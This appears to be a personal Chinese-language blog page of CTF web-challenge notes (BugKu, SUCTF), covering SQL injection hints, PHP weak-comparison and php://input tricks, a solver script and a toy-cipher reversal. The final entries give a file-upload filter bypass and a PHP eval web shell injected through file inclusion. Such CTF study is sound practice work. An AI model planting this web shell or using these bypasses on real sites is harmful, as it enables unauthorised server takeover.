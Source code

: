 ```yaml
---
title: 错题wp集
toc: true
date: 2021-04-22 14:57:37
tags: CTF
categories: [100 Cyber security, 120 CTF, 121 Web ]
---
```



1. SUCTF 2019 EasySQL https://blog.csdn.net/qq_43619533/article/details/103434935
    *  考点： 通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有||
1. BugKu web 21 https://blog.csdn.net/qq_41333578/article/details/92759619
    *  考点： 弱比较的绕过; PHP伪协议php://input如何输入请求主体; eregi绕过的两种方式; 注意`\x00`会截断后续内容，而%00不会。
1. BugKu 冬至红包 https://blog.csdn.net/qq_46230755/article/details/112973722
    *  考点： 新姿势
1. BugKu web18 https://ctf.bugku.com/challenges/detail/id/85.html
    *  考点：爬虫复习、利用eval()直接计算string内的数字公式、利用同一个Session进行get和post请求，防止网页动态刷新计算值失效、post请求中data注意格式为{‘somevtext’：’somevalue’}、python和PHP的计算方式不太一样，可能存在计算偏差导致得不到flag，需要重复发送几次。
    ```
import requests
from bs4 import BeautifulSoup

url = 'http://114.67.246.176:14925/'

s = requests.session()

r = s.get(url)
# 这里要根据网页的编码来设置解码，这个目标网站编码为'utf-8'
r.encoding = 'utf-8'
soup=BeautifulSoup(r.text,'lxml')
data=soup.select('div')
for item in data:
    #获取原文为804134448*284526014-53361872*1933492032+466213037-393751154*4253881+1224286171-1203351395*1548147628+1689398514=?;
    result=item.get_text()

result1=result[0:len(result)-3] #去掉后三位‘=?;’

result2 = eval(result1) #计算数值

result3={'value':result2} #添加post请求数据格式

mssg=s.post(url, data=result3) #利用同一个session，防止网页刷新。

print(mssg.text)
    ```
1. BugKu Web 32
题目：文件上传;My name is margin,give me a image file not a php

* 解题思路：文件上传漏洞，掏出上传fuzz试试看。
  fuzz没过，看评论说是把multipart/form-data;修改成Content-Type: mulTipart/form-data; ，然后修改php文件为php4，竟然还有这种操作，学到了。

1. BugKu Web 33
提示：
```
Flag:{xxx}
fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=
 // }l.&W'EG*B(W[(+G'U-0
```
题目：
```
<?php
function encrypt($data,$key)
{
    $key = md5('ISCC');
    $x = 0;
    $len = strlen($data);
    $klen = strlen($key);
    for ($i=0; $i < $len; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x];
        $x+=1;
    }
    for ($i=0; $i < $len; $i++) {
        $str .= chr((ord($data[$i]) + ord($char[$i])) % 128);
    }
    return base64_encode($str);
}
?>
```

* 解题思路：在线解base64的时候还没注意到，复制下来才发现还有特殊字符。`.=`连接赋值运算符，将右边参数附加到左边的参数之后。完整的看了一遍代码，发现应该是得到提示的base64字符串的算法。懒得配环境，对PHP一直是只会读代码不会写应用的状态，干脆在网上找了找PHP在线运行网站。试着运行了一下原算法用不同的数字和字母输入data内容。
根据提示中的base64推断，data长度为20。
逆推写了一下获取data的源码：
```
<?php
$str='fR4aHWwuFCYYVydFRxMqHhhCKBseH1dbFygrRxIWJ1UYFhotFjA=';
$str_decode = base64_decode($str);
$len1=strlen($str_decode);

$key = md5('ISCC');  # 729623334f0aa2784a1599fd374c120d
$klen = strlen($key);
$char = '';
$data = '';
for ($i=0; $i < $len1; $i++) {
        if ($x == $klen)
        {
            $x = 0;
        }
        $char .= $key[$x]; # 729623334f0aa2784a1599fd374c120d729623
        $x+=1;
    }
# print($len1); -> 38
# print($char); -> 729623334f0aa2784a1599fd374c120d729623
for ($i=0; $i < $len1; $i++) {
        $data .= chr((ord($str_decode[$i])+128)-ord($char[$i]));
    }
print($data);    
?>
```
得到结果：lag{asdqwdfasfdawfefqwdqwdadwqadawd}，提示里写了Flag:{xxx}，所以把结果改成Flag:{asdqwdfasfdawfefqwdqwdadwqadawd}，结果正确。

1. BugKu Web 33
提示：文件包含

* 解题思路：既然是文件包含，一开始上来就先试试file=php://input(<?php phpinfo();?>)，提示NAIVE，不管，反正方向是对了，开burp传包才看到这个页面有个隐藏的upload.php，点进去发现是个上传点。结合apache的版本和PHP版本，没啥直接上传shell利用的机会。那就只能上传成jpg的格式，然后用文件包含去利用。http://114.67.246.176:14764/index.php?file=upload/202105140715558770.jpg，打开之后发现提示`_ @eval($_POST['shell']);_`，显然是过滤了<?php?>，换成<script>。`<script language=php>echo 'a'; eval($_POST['pass']);</script>`
